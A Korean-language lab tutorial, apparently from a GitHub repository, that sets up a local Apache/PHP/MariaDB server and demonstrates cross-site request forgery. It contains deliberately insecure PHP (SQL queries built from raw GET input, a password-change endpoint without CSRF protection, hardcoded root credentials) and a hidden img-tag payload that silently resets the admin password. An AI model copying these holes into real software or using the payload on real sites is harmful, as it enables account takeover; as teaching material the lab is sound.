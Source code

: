 # CSRF (Cross Site Request Forgery)

일반 사용자의 의도와 무관하게 공격자가 설계한 행동대로 사용자의 클라이언트가 서버로 요청을 보낸다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [CSRF](#CSRF)**

# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |
| mariadb       | 10.3.34-0ubuntu0.20.04.1  |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php mariadb-server php-mysql
```

root비밀번호를 설정하고 데이터베이스, 테이블을 생성한 뒤 데이터를 넣자.

```sh
root@ubuntu:~# mysql_secure_installation
Enter current password for root (enter for none):
Set root password? [Y/n] Y
New password:
Re-enter new password:
Remove anonymous users? [Y/n] Y
Disallow root login remotely? [Y/n] n
Remove test database and access to it? [Y/n] Y
Reload privilege tables now? [Y/n] Y
root@ubuntu:~# mysql -u root -p'root'
MariaDB [(none)]> create database test;
MariaDB [(none)]> use test;
MariaDB [test]> create table user (id varchar(30), pw varchar(30));
MariaDB [test]> insert into user(id,pw) values('admin','helloworld');
```

생성한 데이터베이스로 접근할 수 있는 권한을 부여하자.

```sh
MariaDB [(none)]> grant all privileges on test.* to 'root'@localhost identified by 'root';
MariaDB [(none)]> flush privileges;
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=mysqli.so
```

로그인 페이지(index.php)를 생성하자.

```php
<?php
    session_start();
	if (isset($_GET['userid']) && isset($_GET['password'])) {
		$conn = mysqli_connect("localhost", "root", "root", "test");
		if (!$conn) die("mysql connect error : ".mysqli_connect_error($conn));
		$sql = "SELECT id, pw FROM user WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
		$result = mysqli_query($conn, $sql);
		$row = mysqli_fetch_array($result);
		if ($row) {
            $_SESSION['id'] = $row['id'];
            echo "Welcome ".$_SESSION['id'];
        }
		else echo "Login Failed";
		mysqli_close($conn);
	}  else {
?>
<html>
	<body>
		<form action="/index.php" method="get">
			<label>ID : </label><input type="text" name="userid" required>
			<label>PW : </label><input type="password" name="password" required>
			<input type="submit" value="login">
		</form>
	</body>
</html>
<?php
	}
?>
```

비밀번호 변경 페이지(modifyuser.php)를 생성하자.

```php
<?php
    session_start();
    if (isset($_SESSION['id'])) {
        $conn = mysqli_connect("localhost", "root", "root", "test");
        if (!$conn) die("mysql connect error : ".mysqli_connect_error($conn));
        $sql = "UPDATE user SET pw ='".$_GET['password']."'";
        $result = mysqli_query($conn, $sql);
        mysqli_close($conn);
    }
?>
```

CSRF 공격 페이지(evil.html)를 작성하자.

```html
<img src="http://192.168.0.58/modifyuser.php?password=hack" style="display: none;">
```

# **CSRF**

index.php에서 관리자(admin)로 로그인하자.

| data	| value	|
| :---	| :--- 	|
| ID	| admin |
| PW	| helloworld |
| URL	| http://192.168.0.58/index.php?userid=admin&password=helloworld |

공격자가 관리자에게 피싱메일 등으로 인해 관리자가 evil.html로 접속한다고 가정하고, 접속하자.

그렇다면, img의 src에 의해서 관리자의 비밀번호가 바뀌게 된다.

변경된 비밀번호로 로그인하자.

| data	| value	|
| :---	| :--- 	|
| ID	| admin |
| PW	| hack  |
| URL	| http://192.168.0.58/index.php?userid=admin&password=hack |